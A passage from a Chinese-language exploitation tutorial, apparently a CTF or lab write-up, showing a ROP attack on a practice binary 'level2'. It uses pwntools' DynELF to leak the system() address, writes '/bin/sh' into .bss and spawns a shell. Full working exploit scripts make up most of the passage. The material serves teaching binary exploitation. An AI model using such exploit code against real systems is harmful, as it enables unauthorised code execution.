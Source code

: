 ```python
payload_2 = 'a'*140 + p32(system_addr) + p32(vulfun_addr) + p32(binsh_addr)

p.send(payload_2)
p.interactive()
```



### level 2  - 在不获取目标libc.so的情况下进行ROP攻击

如果不能获取目标机器上的libc.so或者具体的linux版本号，应该怎么计算得出偏移地址（offset）？

利用DynELF模块通过内存泄露(memory leak)来搜索内存中的system()地址。需要的是一个``lead(address)``函数。由于DynELF模块只能取得system()地址，所以需要调用read()或其他函数，将``/bin/sh``写入到程序的非随机段（如.bss段）。通过``readelf -S level2``或者在IDA中快捷键``ctrl+s``获取到bss段的地址。

![](https://raw.githubusercontent.com/skyedai910/Picbed/master/img/20191109230630.png)

![](https://raw.githubusercontent.com/skyedai910/Picbed/master/img/20191109231111.png)

因为我们在执行完read()之后要接着调用system(“/bin/sh”)，并且read()这个函数的参数有三个，所以我们需要一个pop pop pop ret的gadget用来保证栈平衡。利用的是ROPgadget工具快速查找可用gadget，``ROPgadget --binary level2 --only "pop|ret"``

![](https://raw.githubusercontent.com/skyedai910/Picbed/master/img/20191109231537.png)

攻击思路：首先通过DynELF获取到system()地址，通过read()将“/bin/sh”写入到.bss段，通过gadget清空read()栈上参数后，调用system("/bin/sh")。

本地EXP

> 函数、gadget等地址，可能因电脑不同而不一致。请动手操作，获取本机相关地址后，自行替换

```python
#coding = utf-8
from pwn import *

elf = ELF('./level2')
plt_write = elf.symbols['write']
plt_read = elf.symbols['read']
vulfun_addr = 0x08048404 # 请根据实际而替换
bss_addr = 0x0804a018 # 请根据实际而替换 
pppr = 0x080484bd # 请根据实际而替换

def leak(address):
    payload1 = 'a'*140 + p32(plt_write) + p32(vulfun_addr) + p32(1) +p32(address) + p32(4)
    p.send(payload1)
    data = p.recv(4)
    print "%#x => %s" % (address, (data or '').encode('hex'))
    return data

p = process('./level2')

d = DynELF(leak, elf=ELF('./level2'))

system_addr = d.lookup('system', 'libc')
print "system_addr=" + hex(system_addr)

payload2 = 'a'*140  + p32(plt_read) + p32(pppr) + p32(0) + p32(bss_addr) + p32(8) # 写入read部分
payload2 += p32(system_addr) + p32(vulfun_addr) + p32(bss_addr) # 调用system部分

print "\n###sending payload2 ...###"
p.send(payload2)
p.send("/bin/sh\0")
p.interactive()
```
